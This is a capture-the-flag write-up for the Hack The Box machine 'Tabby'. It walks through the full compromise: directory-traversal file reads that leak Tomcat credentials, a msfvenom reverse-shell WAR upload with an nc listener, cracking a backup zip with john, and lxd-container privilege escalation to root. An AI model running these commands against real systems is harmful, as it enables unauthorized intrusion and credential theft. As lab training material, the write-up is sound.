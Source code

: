 ```yaml
---
image: /assets/avatars/tabby.png
author: Valerio Casalino
title: Tabby Writeup
style: fill
color: light
tags: [Writeups, Hackthebox]
description: Writeup for Tabby (Hackthebox)
---
```


# Tabby

As always let's start with an `nmap` to get open ports.

![image-20201022115235445]({{ site.url }}/assets/tabby/image-20201022115235445.png)

And we got this result:

```
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux;protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

At this point, before starting any automated enumeration, we should take a look at the websites on port 80 and on port 8080.

![image-20201022115744210]({{ site.url }}/assets/tabby/image-20201022115744210.png)

On port 80 we can immediately see an email, which gives us a domain name. It is not really important for this machine, but a good practice in cases like this is to check for virtual hosts by adding the domain to the hosts file:

```bash
echo "\n10.10.10.194\t\tmegahosting.htb www.megahosting.htb\n" | sudo tee -a /etc/hosts
```

So, after this edit, we can connect to megahosting.htb and start looking around, until we find a curious way to include content in the news page:

```
http://megahosting.htb/news.php?file=statement
```

We can modify the request with `burp`, but seems a little overkill for this task, so we can try to trigger a directory traversal with a simple `curl` first (assuming the website is placed in `/var/www/../something`):

```bash
curl "http://www.megahosting.htb/news.php?file=../../../../etc/passwd"
```

![image-20201022131328944]({{ site.url }}/assets/tabby/image-20201022131328944.png)

We discovered the user `ash`, but, more importantly, that this location is vulnerable to a bad file inclusion that we can exploit later.

To take advantage of this vulnerability, we have to check port 8080.

![image-20201022131529012]({{ site.url }}/assets/tabby/image-20201022131529012.png)

Which gives us the initial page of tomcat and the CATALINA_HOME, in which a file named `tomcat-users.xml` contains the credentials for tomcat. The info can be retrieved with a simple Google search, [here](https://askubuntu.com/questions/135824/what-is-the-tomcat-installation-directory) is the link to the article I found.

If we trigger the file inclusion on port 80 to get that file we have:

![image-20201022131953473]({{ site.url }}/assets/tabby/image-20201022131953473.png)

So we got tomcat's credentials: `tomcat:$3cureP4s5w0rd123!`.

After a little research on how to upload a `.war` file ([WAR (file format)](https://en.wikipedia.org/wiki/WAR_(file_format))), I found [this answer](https://stackoverflow.com/a/52386613) on StackOverflow, and I did made exactly that.

```bash
# First, create the war file
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.51 LPORT=9001 -f war > shell.war
# Then upload it using tomcat's creds
curl -u 'tomcat':'$3cureP4s5w0rd123!' -T shell.war 'http://megahosting.htb:8080/manager/text/deploy?path=/lolz&update=true'
# Get ready for the reverse shell
nc -lvvp 9001
```

Now, if we go to `http://megahosting.htb:8080/lolz`, we'll trigger the reverse shell!

![image-20201022133127965]({{ site.url }}/assets/tabby/image-20201022133127965.png)

At this point, with some enumeration, we can find a backup file:

![image-20201022133555734]({{ site.url }}/assets/tabby/image-20201022133555734.png)

(I just used `find` to find all the files in the system that I could read, but that were owned by `ash`)

Let's get this backup.

```bash
wget "http://www.megahosting.htb/news.php?file=../../../../var/www/html/files/16162020_backup.zip" -O backup.zip
```

The zip file is password protected, so we'll use `john` to find it.

![image-20201022134232933]({{ site.url }}/assets/tabby/image-20201022134232933.png)

At this point, the only thing left to do is let `john` do its magic:

```bash
john --wordlist=/usr/share/wordlists/passwords/rockyou.txt for_john.txt
```

Then we get the password of the archive, which is the same as `ash`'s account, so we obtained user's credentials: `ash:admin@it`.

So, we can switch user into the box:

![image-20201022191319438]({{ site.url }}/assets/tabby/image-20201022191319438.png)

For my comfort I'll suggest to [put a pubkey](https://www.ssh.com/ssh/keygen/) into `ash`'s `~/.ssh/authorized_hosts`, or [upgrade your shell](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/), but everything will work anyway. Go in the home directory and get the flag.

Running `id`, we discovered that the user is in the `lxd`  group, so he's able to create containers and running them as `root`. If we mount the root partition inside the container we can basically be root in the box. Documentation of LXD [here](https://linuxcontainers.org/lxd/docs/master/). 

First, you have to get a container image from the [web repository](https://images.linuxcontainers.org/images/) and transfer it to the box:

```bash
# Locally
git clone  https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
mv alpine-* alpine.tar.gz
python3 -m http.server
# On Tabby
a=$(mktemp -d)
cd $a
wget "http://10.10.14.51:8000/alpine.tar.gz"
lxc image import ./alpine.tar.gz --alias lolz-image
```

To run the privilege escalation you have to:

```bash
# Initialize the container and make it accessible as root
lxc init lolz-image lolz -c security.privileged=true
# Mount the root partition (/) where you want
lxc config device add lolz lolz-image disk source=/ path=/mnt/root recursive=true
# Start the container
lxc start lolz
# Get a shell inside of it
lxc exec lolz /bin/sh
```

... profit.

![image-20201022194855232]({{ site.url }}/assets/tabby/image-20201022194855232.png)

